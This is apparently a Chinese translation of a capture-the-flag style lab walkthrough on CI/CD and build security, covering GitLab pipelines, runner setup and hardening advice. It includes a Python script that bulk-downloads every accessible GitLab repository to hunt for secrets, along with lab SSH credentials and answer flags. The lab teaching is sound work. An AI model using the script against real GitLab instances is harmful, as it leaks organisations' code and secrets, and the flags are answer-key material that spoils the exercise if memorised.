



# CI/CD 与构建安全

## 任务 1 简介

欢迎来到 CI/CD 与构建安全网络！ 在本房间中，我们将探讨如何保护 DevOps 流水线及其生成的构建。 了解不安全构建流程的潜在风险和后果对于认识到实施强大安全措施的紧迫性至关重要。 在本网络中，我们将探讨常见的不安全因素以及威胁行为者如何利用这些因素来破坏流程和生产系统！

### 先决条件

- 软件开发生命周期
- 安全软件开发生命周期
- 流水线自动化简介
- 依赖管理

### 学习目标

- 了解 CI/CD 和构建系统安全在 DevSecOps 流水线中的重要性。
- 探索与不安全的 CI/CD 流水线和构建流程相关的潜在风险和后果。
- 认识到将强大的安全措施集成到构建流程中以确保应用程序部署完整性的重要性。
- 了解针对配置错误的 CI/CD 流水线和构建流程可能发生的实际攻击。

:::info 回答以下问题

<details>

<summary> 我已准备好学习 CI/CD 与构建安全！ </summary>

```plaintext
No answer needed
```

</details>

:::

## 任务 2 设置

### 接入网络

让我们将您连接到 Nostromo 及更广的外星网络！

### 攻击盒

如果您使用基于 Web 的攻击盒，从房间页面启动攻击盒后，您将自动连接到网络。 您可以通过对 Gitlab 主机的 IP 运行 ping 命令来验证这一点。 您还应花时间记下您的 VPN IP。 使用 `ifconfig` 或 `ip a`，记下 cicd 网络适配器的 IP。 这是您的 IP 及关联接口，在执行任务中的攻击时应使用此接口。

### 其他主机

如果您打算使用自己的攻击机器，加入房间后，系统将为您生成一个 OpenVPN 配置文件。 转到您的访问页面。 从 VPN 服务器（在网络选项卡下）选择 'Cicdandbuildsecurity' 并下载您的配置文件。


使用 OpenVPN 客户端进行连接。 此示例在 Linux 机器上显示；使用本指南通过 [Windows](https://tryhackme.com/access#pills-windows) 或 [macOS](https://tryhackme.com/access#pills-macos) 连接。

```shell title="Terminal"
[thm@thm]$ sudo openvpn cicdandbuildsecurity.ovpn
Fri Mar 11 15:06:20 2022 OpenVPN 2.4.9 x86_64-redhat-linux-gnu [SSL (OpenSSL)] [LZO] [LZ4] [EPOLL] [PKCS11] [MH/PKTINFO] [AEAD] built on Apr 19 2020
Fri Mar 11 15:06:20 2022 library versions: OpenSSL 1.1.1g FIPS  21 Apr 2020, LZO 2.08
[....]
Fri Mar 11 15:06:22 2022 /sbin/ip link set dev tun0 up mtu 1500
Fri Mar 11 15:06:22 2022 /sbin/ip addr add dev tun0 10.50.2.3/24 broadcast 10.50.2.255
Fri Mar 11 15:06:22 2022 /sbin/ip route add 10.200.4.0/24 metric 1000 via 10.50.2.1
Fri Mar 11 15:06:22 2022 WARNING: this configuration may cache passwords in memory -- use the auth-nocache option to prevent this
Fri Mar 11 15:06:22 2022 Initialization Sequence Completed
```

"初始化序列完成" 消息告诉您您现已连接到网络。 返回您的访问页面。 您可以通过查看访问页面来验证您是否已连接。 刷新页面，您会看到 Connected 旁边有一个绿色勾号。 它还会显示您的内部 IP 地址。


### 配置 DNS

此网络只有两个重要的 DNS 条目。 因此，最简单的方法是将这些 DNS 条目直接嵌入到您的主机文件中，无论您使用的是攻击盒还是自己的机器。 为此，请查看上方的网络图并记下 Gitlab 和 Jenkins 主机的 IP。 然后，从终端执行以下命令：

`sudo echo <Gitlab IP> gitlab.tryhackme.loc >> /etc/hosts && sudo echo <Jenkins IP> jenkins.tryhackme.loc >> /etc/hosts`

但是，如果您已启动网络并需要重新添加或更新此条目，请使用您喜欢的文本编辑器程序直接修改 `/etc/hosts` 文件中的条目。 配置完成后，您可以导航到 [http://gitlab.tryhackme.loc](http://gitlab.tryhackme.loc/) 以验证您的访问是否正常。 您应该会看到以下页面：


### 联系 MU-TH-UR 6000

在您通过此网络的过程中，您必须向 MU-TH-UR 6000 大型机（更广为人知的名称为 Mother）报告您的工作。 在开始这段危险的旅程之前，您必须向 Mother 注册。 如下所述，SSH 用于通信：

|   -  键-   |                             -  值-                            |
| :-------: | :----------------------------------------------------------: |
|  SSH 用户名  |                          -  mother-                          |
|   SSH 密码  |                        motherknowsbest                       |
| - SSH IP- | - X.X.X.250- |

使用您的网络图替换 SSH IP 中的 X 值。 一旦您通过身份验证，您将能够与 Mother 通信。 按照提示注册挑战，并保存您获得的信息以供将来参考。 注册后，按照说明验证您是否可以访问所有相关系统。

VPN 服务器和 Mother 大型机不在此网络范围内，对这些系统进行的任何安全测试都可能导致您被禁止访问网络。

在您通过网络的过程中，您需要证明您的入侵。 为此，您将被要求在您已入侵的主机上执行特定步骤。 请注意上方网络图中的主机名，因为您将需要此信息。 只能从匹配的主机访问标志。

**注意：如果网络已重置或您在网络中的时间到期后加入了新的子网，您的 Mother 帐户将保持活动状态。**

:::info 回答以下问题

<details>

<summary> 我已准备好开始我的 CI/CD 和构建安全学习之旅。 </summary>

```plaintext
No answer needed
```

</details>

<details>

<summary> 我已使用我选择的首选方法连接到网络，并确认我可以访问 Gitlab 服务器。 </summary>

```plaintext
No answer needed
```

</details>

<details>

<summary> 我已向 Mother 注册了一个帐户。 </summary>

```plaintext
No answer needed
```

</details>

:::

## 任务 3 什么是 CI/CD 与构建安全？

### 简介

建立安全的构建环境对于保护您的软件开发流程免受潜在威胁和漏洞至关重要。 鉴于最近发生的事件，例如 SolarWinds 供应链攻击，越来越明显的是，建立强大的安全基础势在必行。 本任务将探讨创建安全构建环境的关键策略，同时考虑从 SolarWinds 用例中吸取的教训。

### CI/CD 基础

根据 [Gitlab](https://about.gitlab.com/topics/ci-cd/)，CI/CD 有八个基础：

- **单一源存储库** - 应使用源代码管理来存储构建应用程序所需的所有必要文件和脚本。
- **频繁向主分支提交代码** - 代码更新应保持较小规模并更频繁地执行，以确保集成尽可能高效地进行。
- **自动化构建** - 构建应实现自动化，并在代码更新推送到源代码存储解决方案的分支时执行。
- **自测试构建** - 随着构建的自动化，应引入步骤来自动测试构建结果的完整性、质量和安全合规性。
- **频繁迭代** - 通过频繁提交，冲突发生的频率会降低。 因此，提交应保持较小规模并定期进行。
- **稳定的测试环境** - 代码应在尽可能模拟生产环境的环境中进行测试。
- **最大可见性** - 每位开发人员都应能访问最新的构建和代码，以了解和查看已进行的更改。
- **随时可预测的部署** - 流水线应进行优化，以确保随时可以进行部署，且对生产稳定性几乎无风险。

虽然所有这些基本原则都有助于确保CI/CD能够优化DevOps流程，但其中没有一个真正关注确保自动化不会增加攻击面或使流水线易受攻击。

### 典型的CI/CD流水线

那么，一个典型的支持CI/CD的流水线是什么样的呢？ 本房间的网络图有助于解释这一点。 让我们来看看这个流水线中可以找到的不同组件：

- **开发工作站** - 编码魔法发生的地方，开发人员在此编写和构建代码。 在此网络中，这是通过您的AttackBox模拟的。
- **源代码存储解决方案** - 这是一个集中存储和跟踪不同代码版本的平台。 这是我们网络中的Gitlab服务器。
- **构建协调器** - 协调和管理构建及部署环境的自动化。 在此网络中，Gitlab和Jenkins都用作构建服务器。
- **构建代理** - 这些机器构建、测试和打包代码。 我们使用GitLab运行器和Jenkins代理作为我们的构建代理。
- **环境** - 如上文简要提到的，通常有开发环境、测试环境（预发布）和生产环境（实时代码）。 代码通过这些阶段进行构建和验证。 在我们的网络中，我们既有开发环境也有生产环境。

在本房间中，我们将更详细地探索CI/CD组件，并展示此处常见的错误安全配置。 需要注意的是，采用CI/CD的DevOps流水线可能因使用的工具而采取多种形式，但应应用的安全原则保持不变。

### SolarWinds案例

SolarWinds漏洞是2020年12月发现的一次重大网络攻击。 攻击者入侵了SolarWinds的软件供应链，将名为SUNBURST的恶意代码注入到该公司的Orion软件更新中。 攻击者设法未经授权访问了众多组织的网络，包括政府机构和私营公司。 此次漏洞事件凸显了保护软件供应链的至关重要性，以及单一受感染供应商对许多实体的潜在影响。

在我们探讨可应用于确保构建环境安全的措施时，我们将使用此案例。 这些措施包括实施隔离和分段技术，以及设置适当的访问控制和权限以限制未经授权的访问。

#### 实施隔离和分段技术

SolarWinds事件凸显了在构建系统内隔离和分段关键组件的重要性。 通过分离构建过程的不同阶段并采用严格的访问控制，您可以降低单个受感染组件危及整个系统的风险。 隔离可以通过容器化或虚拟化技术实现，创建安全沙箱来执行构建过程，而不会暴露整个环境。

#### 设置适当的访问控制和权限

限制对构建环境的未经授权访问对于维护系统的完整性和安全性至关重要。 遵循最小权限原则，仅授予需要执行特定任务的个人或组访问权限。 实施强大的身份验证机制，如多因素身份验证（MFA），并强制执行强密码策略。 此外，定期审查和更新访问控制，以确保访问权限符合最小权限原则。

对特权账户实施严格的控制至关重要，包括限制具有管理访问权限的个人数量，以及对特权活动进行严格的监控和审计机制。

#### 关于网络安全的说明

网络安全对于保护构建系统免受外部威胁至关重要。 实施适当的网络分段，例如将构建环境划分为独立的网络区域，有助于遏制潜在的漏洞并限制横向移动。 以下是需要考虑的更多要点：

- 为软件更新实施安全通信通道，并确保从可信来源获取任何第三方组件或依赖项。
- 定期监控和评估软件供应商的安全性，以识别和解决潜在风险或漏洞。

从诸如SolarWinds攻击等事件中学习，有助于我们认识到保护整个构建过程（从代码开发到部署）的至关重要性，以防范潜在威胁并确保软件的可信度。

:::info 回答以下问题

<details>

<summary> CI/CD流水线的哪个元素协调和管理构建及部署环境的自动化？ </summary>

```plaintext
build orchestrator
```

</details>

<details>

<summary> CI/CD流水线的哪个元素构建、测试和打包代码？ </summary>

```plaintext
build agents
```

</details>

<details>

<summary> CI/CD的哪个基本原则促进开发人员访问最新的构建和代码，以了解和查看已进行的更改？ </summary>

```plaintext
maximum visibility
```

</details>

:::

## 任务4 创建您自己的流水线

### 简介

在探讨错误配置之前，我们首先创建自己的流水线以便进行实验。

### Gitlab注册

我们将通过在GitLab实例上创建账户来开始此过程。 导航至 [http://gitlab.tryhackme.loc](http://gitlab.tryhackme.loc/) 并选择页面上的**立即注册**选项。 填写所需详细信息以创建您的账户并注册。 请记住选择一个安全密码并保存它，以便在此网络中使用！ 一旦通过身份验证，您应该会看到此页面：



请随意探索Gitlab服务器的功能。 Gitlab与Github非常相似；但是，它允许您托管自己的服务器！

### 项目创建

现在您已拥有账户，下一步是创建一个新项目。 请随意直接创建一些项目以熟悉此功能。 但是，由于我们想实验流水线，您可以分叉一个为此目的而创建的现有项目。

点击"您的工作"标签，然后选择"探索"选项，并搜索BasicBuild。 您将看到一个类似这样的项目：


完成后，您可以分叉此项目！ 这将创建一个您拥有并可配置的项目副本。

### 理解CI/CD配置

在Gitlab中，项目自动化在.gitlab-ci.yml文件中定义。 此文件包含在向仓库进行新提交时将自动执行的步骤。 理解此文件中命令的作用对于您学习构建安全性的旅程非常重要。 让我们来看一下文件的内容。

#### 阶段

GitLab CI 文件允许您定义各种作业。 每个作业都有不同的步骤必须执行，这些步骤可以在作业的脚本部分找到。 通常，任何 CI 流水线都有三个阶段，即构建、测试和部署阶段，但也可以有更多阶段。 让我们来看一下构建作业：

```yml title=".gitlab-ci.yml"
build-job:
  stage: build
  script:
    - echo "Hello, $GITLAB_USER_LOGIN!"
```

第一行，build-job，是作业的名称。 stage 值用于告诉 Gitlab 该作业属于 CI 流水线的哪个阶段。 如前所述，这可以是构建、测试或部署。 每个阶段中的作业是并行执行的。 这意味着所有构建作业将同时执行，所有测试和部署作业也是如此。 如果某个作业失败，后续阶段将不会开始。 如果作业未指定阶段，它将自动分配到测试阶段。 如果您必须更改作业顺序，可以使用 needs 部分来定义必须完成哪些作业才能执行下一个作业。

script 部分详细说明了将作为作业一部分执行的命令。 如您所见，此构建作业仅执行一个 echo 命令。 然而，我们通常在构建阶段完成所有构建活动，例如加载依赖项和编译代码。 由于我们部署的是一个简单的 PHP 网站，因此无需编译代码。

#### 测试

测试作业旨在对构建执行测试，以确保一切按预期工作。 通常，您会执行多个测试作业，以确保可以单独测试应用程序的各个部分。 如果一个测试作业失败，其他测试作业仍将继续，让您能够确定当前构建的所有问题，而不必进行多次构建。 让我们来看一下两个测试用例：

```yml title=".gitlab-ci.yml"
test-job1:
  stage: test
  script:
    - echo "This job tests something"

test-job2:
  stage: test
  script:
    - echo "This job tests something, but takes more time than test-job1."
    - echo "After the echo commands complete, it runs the sleep command for 20 seconds"
    - echo "which simulates a test that runs 20 seconds longer than test-job1"
    - sleep 20
```

如您所见，我们的简单 PHP Web 应用程序没有任何内容需要测试。 但是，我们可以模拟一个测试用例比另一个花费更长时间的情况。

#### 部署

在部署阶段，如果构建和测试阶段都成功，我们希望将应用程序部署到相关环境。 通常，源代码仓库中使用分支，只有主分支可以部署到生产环境。 其他分支将部署到 DEV 或 UAT 等环境。 让我们来看一下在部署作业中做什么：

```yml title=".gitlab-ci.yml"
deploy-prod:
  stage: deploy
  script:
- echo "This job deploys something from the $CI_COMMIT_BRANCH branch."
    - echo "Making the website directory"
    - mkdir -p /tmp/time/cicd
    - echo "Copying the website files"
    - cp website_src/* /tmp/time/cicd/
    - echo "Hosting website using a screen"
    - screen -d -m php -S 127.0.0.1:8081 -t /tmp/time/cicd/ &    
    - echo "Deployment complete! Navigate to http://localhost:8081/ to test!"
  environment: production
```

部署作业的第一步是在 /tmp/ 下创建一个新目录，用于放置我们的 Web 应用程序。 然后，我们将 Web 应用程序文件复制到该目录并更改文件的权限。 完成后，使用 PHP 托管应用程序。 现在，我们准备好启动我们的应用程序了！

CI 文件可能会变得更加复杂，因为有更多部分和关键字可以使用。 如果您想了解更多，可以查看[这里](https://docs.gitlab.com/ee/ci/yaml/index.html)。 既然我们更好地理解了嵌入式自动化，让我们来看看实际使用它。 要让构建执行，我们需要注册一个运行器。

### 运行器注册

在 Gitlab 中，我们使用运行器来执行项目中配置的任务。 让我们按照流程将您的攻击机注册为项目的运行器。

**注意**：在继续之前，请确保已安装 PHP（`sudo apt install php7.2-cli`）。 请注意，如果您在自己的机器上执行此操作，请确保您同意运行器将 Web 应用程序部署到您的机器上。 如果不同意，最好在 AttackBox 上执行此操作。

在您的项目中，单击“设置”，然后单击“CI/CD”：


展开“运行器”部分，您应该看到以下屏幕：


在这里，您将能够为项目配置新的运行器。 单击三个点，然后单击“显示运行器安装步骤”按钮。 您将看到以下屏幕：


第一个代码块用于安装 GitLab-runner 应用程序。 按照这些步骤在您的攻击机上安装应用程序。 完成后，使用第二个代码块中的命令注册您的运行器。 按照如下所示的提示完成安装过程：

```shell title="Terminal"
root@ip-10-10-45-212:~# sudo gitlab-runner register --url http://gitlab.tryhackme.loc/ --registration-token "token"
Runtime platform                                    arch=amd64 os=linux pid=7248 revision=782e15da version=16.2.0
Running in system-mode.                            
                                                   
Enter the GitLab instance URL (for example, https://gitlab.com/):
[http://gitlab.tryhackme.loc/]: 
Enter the registration token:
["token"]: 
Enter a description for the runner:
[ip-10-10-45-212]: runner-attackbox
Enter tags for the runner (comma-separated):
production
Enter optional maintenance note for the runner:

WARNING: Support for registration tokens and runner parameters in the 'register' command has been deprecated in GitLab Runner 15.6 and will be replaced with support for authentication tokens. For more information, see https://gitlab.com/gitlab-org/gitlab/-/issues/380872 
Registering runner... succeeded                     runner=GR1348941qguXCM9b
Enter an executor: shell, virtualbox, instance, kubernetes, custom, docker, docker-windows, docker+machine, parallels, ssh, docker-autoscaler:
shell
Runner registered successfully. Feel free to start it, but if it's running already the config should be automatically reloaded!
 
Configuration (with the authentication token) was saved in "/etc/gitlab-runner/config.toml"
```

现在您的运行器已配置，您可以在 Gitlab 上刷新页面，您应该看到您的运行器：


最后一步是配置您的运行器以执行未标记的作业，因为我们当前的 CI 流水线不使用标签。 通常，标签用于确保正确的运行器拾取各种作业。 但是，由于我们有一个简单的作业，我们可以直接告诉我们的运行器执行所有作业。 单击小铅笔图标，然后单击“运行未标记的作业”：



您现在准备好开始构建过程了！

### 构建自动化

既然运行器已注册，我们可以通过进行新的提交来测试构建过程。 最简单的更改是更新 README.md 文件，这将触发构建：

1. 单击仓库中的文件
2. 选择“编辑”
3. 选择“编辑单个文件”
4. 对文件进行更新
5. 单击“提交更改”

完成后，您的构建过程将已开始！ 我们可以通过单击“构建”，然后单击“流水线”来跟踪过程：


到达那里后，您应该看到您的流水线已启动！ 单击流水线以查看它当前正在执行哪个作业及其输出：


您也可以单击流水线以查看其进度：


完成后，您的应用程序将已部署！ 您可以通过导航到 [http://127.0.0.1:8081/](http://127.0.0.1:8081/) 来验证这一点，您应该会看到 Web 应用程序主页。


恭喜！ 您已经创建了自己的 CI/CD 流水线和构建过程！ 请随意进一步探索 CI/CD 流水线配置和您的运行器！

**注意**：如果您希望移除网站，可以使用 `sudo su gitlab-runner` 后跟 `screen -r` 连接到托管您网站的 screen。 从这里，您将能够终止网站。

:::info 回答以下问题

<details>

<summary> 可以与 Gitlab 一起使用的构建代理的名称是什么？ </summary>

```plaintext
Gitlab Runner
```

</details>

<details>

<summary> 成功认证到 Timekeep 后，您收到的标志值是什么？ </summary>

```plaintext
THM{Welcome.to.CICD.Pipelines}
```

</details>

:::

## 任务 5 保护构建源

### 源代码安全

正如在《管道自动化和源代码安全》房间的简介中提到的，保护管道和构建的第一步是保护源代码。 如果威胁行为者能够破坏我们的构建源，他们就有能力破坏构建本身。 我们希望保护我们的源代码免受以下两个主要问题的影响：

- **未经授权的篡改** - 这是两个问题中最简单的一个。 只有授权用户才能对源代码进行更改。 这意味着我们希望控制谁有能力向我们的代码仓库推送新代码。
- **未经授权的泄露** - 这个问题稍微复杂一些。 根据应用程序的不同，源代码本身可能被视为敏感信息。 例如，微软不希望公开 Word 的源代码，因为那是他们的知识产权。 在源代码敏感的情况下，我们必须确保不会有意泄露它。 这个问题在实践中更为常见。

### 职责混淆

让我们来看看如何利用不安全的构建源。 大型组织中常见的错误是认为边界是足够的安全边界。 虽然边界确实起到一定作用，但它不应被视为唯一的边界。 内部网络上的细粒度访问控制也应该实施。 这种错误的信念可能导致有趣的配置错误。 让我们来看一个实际的例子。

有些组织规模非常大，拥有多个团队和业务部门负责不同的事务。 如果我们以银行为例，许多不同的团队和部门共同协作来运营银行。 此外，在这样的大型组织中，情况并不像简单地说我们有一个"IT"业务部门那样简单，因为银行内部可能有多个团队在从事许多不同的 IT 和开发项目，使用各种编程语言、CI/CD 管道和构建框架。 这样的大型组织可能会选择在内部托管他们的源代码，因为许多开发内容可能是知识产权（IP）。 虽然我们希望各种源代码仓库的访问能够进行细粒度管理，但错误确实会悄悄出现。

其中一个错误是组织可能让他们的 Gitlab 实例保持开放注册。 不是对互联网开放（尽管这种情况以前也发生过），而是对内部网络上的任何用户开放注册个人资料。 这在前一个任务中通过允许您注册自己的 Gitlab 个人资料进行了模拟。

有些人可能认为这不是直接风险，但让我们看看攻击面是如何扩大的。 我们的示例银行组织可能有 10,000 名员工，其中 2000 人可能是开发人员，需要访问 Gitlab。 本质上，我们的攻击面增长了 500%！ 如果我们银行的任何一名员工被攻陷，攻击者将能够注册个人资料并外泄任何公开共享的仓库。

这是第二个起作用的配置错误。 我们银行的开发人员可能认为，由于 Gitlab 实例只能在内部访问，因此将仓库配置为公开共享是可以的。 这意味着任何拥有有效 Gitlab 账户的用户都将能够查看该仓库。 虽然他们可能无法修改代码，但请记住，在这个例子中，代码本身被视为银行的知识产权。 这种关于谁负责保护源代码的混淆可能导致敏感信息泄露给威胁行为者。 让我们来看看如何利用这一点！

### 利用易受攻击的构建源

您已经在 GitLab 实例上注册了个人资料。 虽然您可以使用手动枚举在仓库中查找敏感信息，但在红队行动中，您需要自动化此过程以确保隐秘性和效率。 出于显而易见的原因，我们不会在本任务中教授这两种方法，所以让我们看看如何使过程更高效。 为了高效枚举公开可见的仓库，我们将使用 Gitlab API 和一个 Python 脚本，如下所示：

```python title="enumerator.py"
import gitlab
import uuid

# Create a Gitlab connection
gl = gitlab.Gitlab("http://gitlab.tryhackme.loc/", private_token='REPLACE_ME')
gl.auth()

# Get all Gitlab projects
projects = gl.projects.list(all=True)

# Enumerate through all projects and try to download a copy
for project in projects:
    print ("Downloading project: " + str(project.name))
    #Generate a UID to attach to the project, to allow us to download all versions of projects with the same name
    UID = str(uuid.uuid4())
    print (UID)
    try:
        repo_download = project.repository_archive(format='zip')
        with open (str(project.name) + "_" + str(UID) +  ".zip", 'wb') as output_file:
            output_file.write(repo_download)
    except Exception as e:
        # Based on permissions, we may not be able to download the project
        print ("Error with this download")
        print (e)
        pass
```

**注意**：请确保使用 `pip3 install python-gitlab==3.15.0` 安装 Gitlab pip 包。

如前所述，提供的脚本并不隐秘。 它不是首先确定哪些仓库是公开可用的，而是恢复所有仓库的完整列表并尝试下载每个仓库。 这展示了威胁行为者如何快速轻松地恢复所有公开可用的仓库。 请随意修改脚本以引入隐秘性。

正如您将看到的，脚本的第 5 行需要一个 Gitlab 认证令牌。 Gitlab 不允许使用凭据与其 API 交互，因为这被认为是不安全的。 因此，要使用该脚本，我们首先必须为我们的账户生成一个 API 令牌。 认证到 Gitlab 服务器并执行以下步骤：

1. 点击您的个人资料图标并选择偏好设置：

   

2. 点击访问令牌：

   

3. 输入新 API 令牌的名称，并选择 api、read_api 和 read_repository 范围：

   

4. 点击创建个人访问令牌，显示并复制您的访问令牌到安全位置：

   

5. 将令牌添加到脚本中并执行它以下载所有仓库：

   ```shell title="Terminal"
   [thm]$ python3.9 enumerator.py 
   Downloading project: Basic Build
   3609db7f-0d07-440c-bdc6-1f78cb283f6a
   Downloading project: Mobile App
   836fe1fa-0fc2-4917-b1c1-61badef3b711
   ```

现在您已成功下载所有公开可用的仓库！ 此时，有几种方法可以查找敏感信息。 最简单的方法是提取所有仓库并对特定关键词（如 `secret`）运行 grep 命令。 请务必阅读可用的仓库以找到隐藏的秘密标志！ 注意：不要更改脚本的名称（enumerator.py），否则会抛出错误！

### 保护构建源

细粒度访问控制对于管理仓库和 GitLab 平台至关重要。 它涉及为不同的用户或组定义特定的权限和限制，确保只有授权个人对敏感资源具有适当级别的访问权限。 这有助于在开发环境中维护安全性、保密性和有效协作。

在 GitLab 中，基于组的访问控制是一种强大的机制，可以简化跨多个仓库和项目的权限管理。 以下是它的工作原理：

1. **基于组的访问控制**：GitLab 允许您将项目组织到组中。 与其单独管理每个项目的访问权限，您可以在组级别设置权限。 这意味着相同的访问规则适用于组内的所有项目，使得维护一致的安全策略更加容易。 例如，您可以为开发团队创建一个组并定义权限，例如谁可以查看、编辑或贡献该组内的项目。 这种方法简化了访问管理，并减少了在配置单个仓库权限时出现错误或疏忽的机会。
2. **访问级别**：GitLab 提供不同的访问级别，例如访客、报告者、开发者、维护者和所有者。 每个层级都带有特定的能力和权限。 为每个用户或群组分配合适的访问级别，可确保他们拥有必要的权限，而不会授予不必要的权限。
3. **敏感信息保护**：一个关键考虑因素是防止敏感信息意外泄露。 GitLab 提供了以下功能来帮助实现这一点：
   1. **GitLab 的 .gitignore**：此文件指定哪些文件或目录应从版本控制中排除。 这对于防止密码、API 密钥和配置文件等敏感数据被提交到代码库至关重要。
   2. **环境变量**：GitLab 允许您安全地定义和管理环境变量，与源代码分离。 这对于存储 CI/CD 过程中所需的敏感数据特别有用，而不会在代码库中暴露。
   3. **分支保护**：可以保护分支（如 master 或 main），以防止直接推送，确保更改在合并前经过代码审查和自动化测试。

请记住，维护代码库和 GitLab 实例本身的安全性需要持续警惕和最佳实践：

- 随着团队成员角色变更或离开组织，定期审查和更新访问权限。
- 实施双因素认证（2FA），为用户账户增加额外的安全层。
- 监控审计日志，跟踪谁访问或修改了代码库和项目。
- 使用专为此目的设计的工具定期扫描代码库中的敏感信息。

:::info 回答以下问题

<details>

<summary>哪个文件指定哪些目录和文件应从版本控制中排除？ </summary>

```plaintext
.gitignore
```

</details>

<details>

<summary>您可以保护什么以确保避免直接推送和易受攻击的代码更改？ </summary>

```plaintext
Branches
```

</details>

<details>

<summary>缺乏访问控制和未经授权的代码更改会导致什么问题？ </summary>

```plaintext
unauthorised tampering
```

</details>

<details>

<summary>存储在移动应用程序中且任何 Gitlab 用户都可以访问的 API 密钥是什么？ </summary>

```plaintext
THM{You.Found.The.API.Key}
```

</details>

:::

## 任务 6 保护构建过程

既然我们已经注意保护管道的构建源，接下来我们的任务是确保构建过程本身没有可能导致安全漏洞的错误配置。

### 管理依赖项

保护构建过程的第一步是保护构建的依赖项。 当我们的管道启动时，它将开始将源代码编译成最终构建。 然而，我们的源代码可能依赖外部库和 SDK 来实现其功能。 因此，在此编译过程中，构建管道将收集这些依赖项以执行构建。 在依赖项方面，我们的构建过程有两个主要关注点：

- 供应链攻击 - 如果威胁行为者能够接管其中一个依赖项，他们将能够将恶意代码注入构建中
- 依赖混淆 - 如果使用内部开发的依赖项，攻击者可能尝试依赖混淆攻击，将代码注入构建过程本身。

如果您想了解更多并实际利用这些攻击，这两种攻击已在 [依赖管理房间](http://tryhackme.com/jr/dependencymanagement) 中介绍。 在此任务中，我们将重点关注构建过程本身的一个错误配置。

### 了解何时开始构建

管道和构建过程的一个大问题是，简而言之，无论您是否愿意听到，它都是作为功能的远程代码执行。 一旦管道启动，构建服务器会与其中一个构建代理通信以执行构建，包括从 CI 文件读取必须执行的命令并执行它们。 虽然这创造了自动化，但也带来了风险，即如果攻击者能够改变正在构建的内容或时间，他们可能能够利用此代码执行来危害系统。 因此，我们需要特别注意以下几点：

- 我们允许哪些操作启动构建过程？
- 谁有权执行这些操作以启动构建过程？
- 构建过程将在哪里进行？

